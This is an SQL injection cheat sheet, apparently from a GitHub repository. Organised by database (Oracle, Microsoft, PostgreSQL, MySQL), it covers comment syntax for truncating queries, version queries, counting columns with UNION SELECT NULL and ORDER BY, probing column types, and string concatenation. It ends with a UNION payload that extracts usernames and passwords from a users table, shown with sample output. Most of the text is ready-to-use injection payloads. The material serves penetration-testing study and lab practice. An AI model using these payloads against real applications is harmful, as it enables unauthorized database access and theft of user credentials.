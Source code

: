 # SQL cheet sheat

This SQLi cheat sheet contains examples of useful syntax that you can use to perform a variety tasks that often arise when SQL injection attacks.

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input

<pre>
<b>Oracle</b>:
		--comment
<b>Microsoft</b>:
		--comment
		/*comment*/
<b>PostgreSQL</b>:
		--comment
		/*comment*/
<b>MySQL</b>:
		#comment
		-- comment (note that the space needs to follow the double dashb)
		/*comment*/
</pre>

***Example***:
```SQL
	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
	SELECT * FROM products WHERE category = 'football' OR 1=1--' AND released = 1
	SELECT * FROM products WHERE category = 'football'--' AND released = 1
	UNION SELECT username, password FROM users-- 
```

## Database version

<pre>
<b>Oracle</b>:
		SELECT banner FROM v$version
		SELECT version FROM v$instance
<b>Microsoft</b>:
		SELECT @@version
<b>PostgreSQL</b>
		SELECT version()
<b>MySQL</b>:
		SELECT @@version
</pre>

## Number of columns and type of each columns:

If the number of nulls does not match the number of columns, the databas return an error.
```SQL
	UNION SELECT NULL-- (FROM DUAL-- should follow NULL for the injected queries on Oracle )
	UNION SELECT NULL,NULL--
	UNION SELECT NULL,NULL,NULL--
```
OR

This method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
```SQL
	ORDER BY 1--
	ORDER BY 2--
	ORDER BY 3--
```

After getting the number of comlumns. We can replace`NULL` by `string` or `int` value (i.e: 'abc', 123) to detect the type of data in each column:
```SQL
	UNION SELECT 'abc',NULL,NULL,NULL--
	UNION SELECT NULL,'abc',NULL,NULL--
	UNION SELECT NULL,NULL,123,NULL--
```

## String concatenation

<pre>
<b>Oracle</b>:
		'foo'||'bar'
<b>Microsoft</b>:
		'foo'+'bar'
<b>PostgreSQL</b>:
		'foo'||'bar'
<b>MySQL</b>:
		'foo' 'bar' (the space needs to between the two strings)
		CONCAT('foo','bar')
</pre>

For example:
```SQL
UNION SELECT username || '~' || password FROM users--
```
==> results:
```
...
administrator~password1
user2~password2
user3~password3
...  
```


